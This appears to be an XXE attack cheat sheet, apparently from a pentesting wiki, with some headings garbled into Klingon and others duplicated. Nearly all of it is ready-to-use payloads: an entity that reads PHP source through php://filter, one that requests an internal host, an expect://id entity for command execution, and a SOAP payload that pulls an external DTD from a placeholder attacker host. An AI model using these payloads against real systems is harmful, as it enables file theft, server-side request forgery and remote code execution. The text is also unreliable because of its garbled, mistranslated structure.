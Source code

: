 ### Base64

**Extract** _**index.php**_
```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
```
#### **QawHaq 'ej QaD xml**
```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3"> ]>
```
### Remote code execution

**If PHP "expect" module is loaded**

### qarDaSmoHwI' 

**PHP "expect" module lo'laHbe'chugh**
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
<user>&xxe;</user>
<pass>mypass</pass>
</creds>
```
## **SOAP - XEE**
```xml
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```
## XLIFF - XXE

**tlhIngan Hol** - XXE

ghItlhvam: [https://pwn.vg/articles/2021-06/local-file-read-via-error-based-xxe](https://pwn.vg/articles/2021-06/local-file-read-via-error-based-xxe) jImej.
